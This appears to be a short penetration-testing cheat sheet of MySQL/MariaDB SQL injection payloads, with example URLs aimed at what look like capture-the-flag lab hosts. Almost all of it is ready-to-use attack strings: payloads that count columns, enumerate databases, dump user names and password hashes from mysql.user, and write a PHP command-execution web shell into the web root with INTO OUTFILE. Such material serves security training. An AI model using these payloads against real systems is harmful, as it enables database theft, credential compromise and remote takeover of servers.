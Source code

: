 SQL Helpful Tips
******************

Display current table
#######################

maria-db/MySQL

.. code-block:: console

   1' or 1=1 --'

find number of columns
########################

You keep adding nulls until something pops up.

.. code-block:: console 

        UNION SELECT null; --
        website: http://jarvis/room.php?cod=1 UNION SELECT null,null,null,null,null,null,null; -- 

Display DB name, version, directory, and user
###############################################

.. code-block:: console

        UNION SELECT 1,@@version,@@datadir,user(),database(),6,7;--
        website: http://supersecurehotel.htb/room.php?cod=999 UNION SELECT 1,@@version,@@datadir,user(),database(),6,7;-- 

Display different DBs
######################

.. code-block:: console

        UNION ALL SELECT null,group_concat(schema_name),null,null,null,null,null from information_schema.schemata;--
        website: http://supersecurehotel.htb/room.php?cod=999 UNION ALL SELECT null,group_concat(schema_name),null,null,null,null,null from information_schema.schemata;-- 

Enumerate mysql DB and table users
###################################

.. code-block:: console

        UNION ALL SELECT null,group_concat(column_name),null,null,null,null,null from information_schema.columns WHERE table_schema='mysql' and table_name='user';-- 
        website: http://supersecurehotel.htb/room.php?cod=999 UNION ALL SELECT null,group_concat(column_name),null,null,null,null,null from information_schema.columns WHERE table_schema='mysql' and table_name='user';-- 

enumerate host,user,password
##############################

.. code-block:: console

   UNION ALL SELECT null,group_concat(Host,":",User,":",Password,":",File_priv),null,null,null,null,null from mysql.user;--
   website: http://supersecurehotel.htb/room.php?cod=999 UNION ALL SELECT null,group_concat(Host,":",User,":",Password,":",File_priv),null,null,null,null,null from mysql.user;-- 

create a page to write commands
#################################

.. code-block:: console

        UNION ALL SELECT null,'<?php echo system($_REQUEST ["cmd"]); ?>',null,null,null,null,null INTO OUTFILE '/var/www/html/shell.php';-- - 
        website: http://supersecurehotel.htb/room.php?cod=999 UNION ALL SELECT null,'<?php echo system($_REQUEST ["cmd"]); ?>',null,null,null,null,null INTO OUTFILE '/var/www/html/shell.php';-- 

Lists users
#############

.. code-block:: console

   SELECT user FROM mysql.user; — priv
   10' UNION SELECT user,password,3 from mysql.user;-- -
